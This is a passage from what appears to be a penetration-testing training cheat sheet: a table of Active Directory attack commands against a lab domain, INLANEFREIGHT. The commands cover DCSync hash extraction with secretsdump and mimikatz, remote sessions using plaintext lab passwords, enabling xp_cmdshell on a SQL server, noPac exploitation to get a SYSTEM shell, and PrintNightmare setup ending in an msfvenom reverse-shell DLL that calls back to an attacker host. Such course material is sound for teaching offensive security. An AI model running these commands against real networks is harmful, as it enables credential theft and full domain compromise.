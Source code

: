 | `Get-DomainUser -Identity adunn \| select samaccountname,objectsid,memberof,useraccountcontrol \|fl` | PowerView tool used to view the group membership of a specific user (adunn) in a target Windows domain. Performed from a Windows-based host. |
| `$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164" Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs \| ? { ($_.ObjectAceType -match 'Replication-Get')} \| ?{$_.SecurityIdentifier -match $sid} \| select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType \| fl` | Used to create a variable called SID that is set equal to the SID of a user account. Then uses PowerView tool Get-ObjectAcl to check a specific user's replication rights. Performed from a Windows-based host. |
| `secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 -use-vss` | Impacket tool used to extract NTLM hashes from the NTDS.dit file hosted on a target Domain Controller (172.16.5.5) and save the extracted hashes to an file (inlanefreight_hashes). Performed from a Linux-based host. |
| `mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator` | Uses Mimikatz to perform a dcsync attack from a Windows-based host. |

##Privileged Access
| Command | Description |
|---------|-------------|
| `Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"` | PowerView based tool used to enumerate the Remote Desktop Users group on a Windows target (-ComputerName ACADEMY-EA-MS01) from a Windows-based host. |
| `Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"` | PowerView based tool used to enumerate the Remote Management Users group on a Windows target (-ComputerName ACADEMY-EA-MS01) from a Windows-based host. |
| `$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force` | Creates a variable ($password) set equal to the password (Klmcargo2) of a user from a Windows-based host. |
| `$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)` | Creates a variable ($cred) set equal to the username (forend) and password ($password) of a target domain account from a Windows-based host. |
| `Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred` | Uses the PowerShell cmd-let Enter-PSSession to establish a PowerShell session with a target over the network (-ComputerName ACADEMY-EA-DB01) from a Windows-based host. Authenticates using credentials made in the 2 commands shown prior ($cred & $password). |
| `evil-winrm -i 10.129.201.234 -u forend` | Used to establish a PowerShell session with a Windows target from a Linux-based host using WinRM. |
| `Import-Module .\PowerUpSQL.ps1` | Used to import the PowerUpSQL tool. |
| `Get-SQLInstanceDomain` | PowerUpSQL tool used to enumerate SQL server instances from a Windows-based host. |
| `Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'` | PowerUpSQL tool used to connect to connect to a SQL server and query the version (-query 'Select @@version') from a Windows-based host. |
| `mssqlclient.py` | Impacket tool used to display the functionality and options provided with mssqlclient.py from a Linux-based host. |
| `mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth` | Impacket tool used to connect to a MSSQL server from a Linux-based host. |
| `SQL> help` | Used to display mssqlclient.py options once connected to a MSSQL server. |
| `SQL> enable_xp_cmdshell` | Used to enable xp_cmdshell stored procedure that allows for executing OS commands via the database from a Linux-based host. |
| `xp_cmdshell whoami /priv` | Used to enumerate rights on a system using xp_cmdshell. |

##NoPac
| Command | Description |
|---------|-------------|
| `sudo git clone https://github.com/Ridter/noPac.git` | Used to clone a noPac exploit using git. Performed from a Linux-based host. |
| `sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap` | Runs scanner.py to check if a target system is vulnerable to noPac/Sam_The_Admin from a Linux-based host. |
| `sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap` | Used to exploit the noPac/Sam_The_Admin vulnerability and gain a SYSTEM shell (-shell). Performed from a Linux-based host. |
| `sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator` | Used to exploit the noPac/Sam_The_Admin vulnerability and perform a DCSync attack against the built-in Administrator account on a Domain Controller from a Linux-based host. |


##PrintNightmare
| Command | Description |
|---------|-------------|
| `git clone https://github.com/cube0x0/CVE-2021-1675.git` | Used to clone a PrintNightmare exploit using git from a Linux-based host. |
| `pip3 uninstall impacket git clone https://github.com/cube0x0/impacket cd impacket python3 ./setup.py install` | Used to ensure the exploit author's (cube0x0) version of Impacket is installed. This also uninstalls any previous Impacket version on a Linux-based host. |
| `rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'` | Used to check if a Windows target has MS-PAR & MSRPRN exposed from a Linux-based host. |
| `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.129.202.111 LPORT=8080 -f dll > backupscript.dll` | Used to generate a DLL payload to be used by the exploit to gain a shell session. Performed from a Windows-based host. |